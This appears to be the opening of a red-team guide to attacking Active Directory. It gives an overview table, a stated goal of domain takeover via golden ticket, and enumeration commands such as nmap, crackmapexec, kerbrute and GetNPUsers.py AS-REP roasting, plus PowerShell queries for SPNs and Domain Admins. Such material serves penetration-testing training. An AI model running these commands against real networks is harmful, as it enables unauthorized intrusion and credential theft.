 ```yaml
---
icon: biohazard
---
```


# Active Directory / Enterprise Attack Flow

## **Active Directory / Enterprise Attack Flow — Red to Purple**

> 🧠 use only in **authorized labs or simulations**. this guide merges attacker methodology (MITRE TTPs) with blue-team visibility and detection cues.

***

### I. 🏗️ Active Directory Overview

| Element                    | Description                                              |
| -------------------------- | -------------------------------------------------------- |
| **DC (Domain Controller)** | Central authentication server (Kerberos/LDAP/SMB/WinRM). |
| **Domain**                 | Security boundary (e.g., `corp.local`).                  |
| **Forest**                 | Collection of domains with trusts.                       |
| **Objects**                | Users, Computers, Groups, GPOs, SPNs, etc.               |
| **Trusts**                 | Relationships allowing cross-domain authentication.      |
| **Tickets**                | Kerberos TGTs/TGSs — target of many AD attacks.          |

**Goal:** control DC → golden ticket → domain persistence.

***

### II. 🔎 Enumeration Phase (Information Discovery)

#### 🔹 From Linux (Remote)

```bash
nmap -p 88,135,139,389,445,464,593,636,3268,3269,5985,9389 $IP
ldapsearch -x -H ldap://$IP -b "DC=corp,DC=local"
crackmapexec smb $IP
crackmapexec winrm $IP
kerbrute userenum -d corp.local --dc $IP users.txt
GetNPUsers.py corp.local/ -dc-ip $IP -no-pass -usersfile users.txt
```

#### 🔹 From Windows (Domain Joined)

```powershell
Get-ADUser -Filter * -Properties servicePrincipalName
Get-ADGroupMember "Domain Admins"
Get-NetComputer -FullData
Get-NetSession -ComputerName <target>
```
